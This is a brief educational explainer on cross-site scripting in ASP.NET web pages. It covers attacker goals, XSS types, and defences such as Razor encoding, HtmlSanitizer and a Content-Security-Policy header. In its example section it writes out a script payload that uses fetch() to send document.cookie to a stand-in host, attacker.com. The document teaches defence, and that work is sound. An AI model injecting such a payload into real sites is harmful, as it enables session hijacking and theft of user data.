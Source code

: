 # What is Cross-Site Scripting (XSS)?

XSS is a security vulnerability that allows an attacker to inject malicious JavaScript into your website — which then runs in another user’s browser.

## How Can XSS Harm Your Code?

Attackers use XSS to:

Attack Goal and	Result

- Steal session cookies    	|  Hijack user login, impersonate them
- Read or change page data	|  Display fake info or redirect to malicious site
- Exfiltrate user data	    |  Send user input or form data to attacker
- Inject fake forms/buttons	|  Perform phishing or force fake user actions

## Example of XSS Attack

Suppose you allow users to post comments and you render them without sanitizing input:

<p>@comment.Text</p>

User posts this:

```html
<script>alert('Hacked!');</script>
```
What Happens?

When another user opens the page, the script runs:

It shows an alert — or worse,

### Sends your session cookies to an attacker:

```html
<script>
  fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>
```

# Types of XSS
Type	          |       Description
______________________________________________________________________________________

Stored XSS	    |   Malicious script is saved in the database and shown to users later
Reflected XSS	  |   Script is reflected in URL or form input and run immediately
DOM-based XSS	  |   JavaScript on the page dynamically injects malicious content into the DOM

# How to Prevent XSS

## In ASP.NET: Use Razor properly — It encodes by default:

<p>@Model.Comment</p>  ✅ safe -- encoding database inputs including java script
<p>@Html.Raw(Model.Comment)</p> ❌ dangerous unless you're 100% sure it's clean
Never trust user input (even if it's from a form, query string, etc.)

## Sanitize inputs using libraries like:

HtmlSanitizer
Built-in HTML encoding

## Use CSP headers (Content Security Policy):

If you intend to use CSP headers, never use inline JavaScript or CSS inside your HTML pages.
CSP blocks all inline styles and scripts by default.

Instead, you should:
- Move all JavaScript to external .js files
- Move all CSS to external .css files
- Only allow assets (scripts, styles, images, fonts, etc.) to be loaded from trusted sources using the CSP script-src, style-src, img-src, etc. directives.

This improves security by helping to prevent XSS (Cross-Site Scripting) attacks.

Content-Security-Policy: default-src 'self'; script-src 'self';

```csharp
app.Use(async (context, next) => 
{
    context.Response.Headers.Append("Content-Security-Policy", 
        "default-src 'self'; script-src 'self'");
    await next();
});

```